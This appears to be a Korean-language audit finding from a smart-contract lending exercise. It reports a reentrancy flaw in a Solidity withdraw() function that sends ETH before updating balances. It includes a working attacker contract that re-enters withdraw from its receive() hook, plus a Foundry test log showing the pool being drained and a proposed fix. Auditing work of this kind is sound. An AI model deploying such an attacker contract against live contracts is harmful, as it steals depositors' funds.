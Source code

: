 ## 문성훈

## 미구현된 부분: Repay, Accured Interest

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address tokenAddress, uint256 amount) external {
	_createBook(msg.sender);

  _updateInterest();

  if(tokenAddress == address(0x0)) {
    require(ETHBalance >= amount);
    uint256 borrowedETH = participateBooks[msg.sender].usdc_borrow  * 2 / _orcale.getPrice(address(0x0)) * 1e18;

    require(participateBooks[msg.sender].eth_balance - borrowedETH >= amount);

    (bool success, ) = payable(msg.sender).call{value: amount}("");

    ETHBalance -= amount;
    participateBooks[msg.sender].eth_balance -= amount;
    participateBooks[msg.sender].eth_deposit -= amount;
    participateBooks[msg.sender].eth_collateral -= amount;
	} else {
	...
	}
	...
}
```

withdraw 함수는 ETHBalance와 participateBooks라는 전역변수를 사용해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `ETHBalance -= amount;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   구현된 withdraw 함수의 한계로 단순히 재진입이 가능하다는 점만 증명 가능하다. 또한 사용자가 맡긴 담보만을 연속적으로 탈취할 수 있다는 점만 존재한다.
    -   하지만 컨트랙트가 완성되었을 경우 매우 강력한 취약점으로 작용할 수 있기 때문에 Critical을 부여하였다.
-   공격 시나리오
    -   다음과 같이 Reentrancy 코드를 작성했다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 ETHBalance와 participateBooks의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트에 예치한 사용자의 담보를 돌려받게 된다.
    -   이렇게 접근한 자산은 공격자가 되돌려받을 수 있다.
    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
        lending = _lending;
        owner = msg.sender;
      }
      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 100 ether");
        console.log("start", address(this).balance / 1 ether);
        (bool success, )= address(lending).call{value: 100 ether}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), 100 ether));

        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
      }

      function transfer() public payable {
        (bool success,) = msg.sender.call{value: 100 ether}("");
      }

      receive() external payable {
        uint targetBalance = address(lending).balance;
        if(targetBalance > 100 ether){
            console.log(address(this).balance / 1 ether);
            (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
        }
      }
    }
    ```
    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();

      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
          (bool success1,) = address(reentrancy).call{value: 1000 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
          (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
    }
    ```
    ```java
    [PASS] testReentrancy() (gas: 898720)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      100
      100
      100
      100
      100
      100
      100
      100
      100
      100
      100
      user1 balance 0
      reenter balance 1000
      lending balance 1000
      user1 balance 1000
      reenter balance 0
      lending balance 1000
    ```
    -   lending에 deposit한 1000 ether를 한번의 transfer를 통해 10번에 나누어 reentrancy 컨트랙트에 옮겨왔고, 이를 다시 user1으로 옮겨왔다.
-   공격 난이도
    -   컨트랙트를 호출할 수 있는 사람이라면 누구나 가능하다.

### 해결 방안

-   call을 통해 담보금을 돌려주는 구문을 withdraw 함수에서 맨 뒤로 옮겨서 Check-Effect가 먼저 일어날 수 있도록 해야한다.
